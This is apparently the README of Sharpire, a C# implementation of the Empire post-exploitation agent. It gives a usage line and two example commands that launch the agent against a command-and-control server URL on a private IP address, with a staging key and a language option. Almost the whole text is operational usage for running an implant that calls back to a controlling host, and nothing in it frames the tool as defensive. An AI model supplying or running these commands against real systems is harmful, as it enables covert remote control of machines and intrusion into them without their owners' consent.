 ## Sharpire - An implimentation of the Empire Agent in C#

sharpire.exe \<server\> \<stagingkey\> \<language\>

sharpire.exe "http://192.168.255.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "powershell"<br/>
sharpire.exe "http://10.2.2.100:80" "aRAVQ_z?6PqujiWgf!eNwBZ&G)^h(L/|" "dotnet"
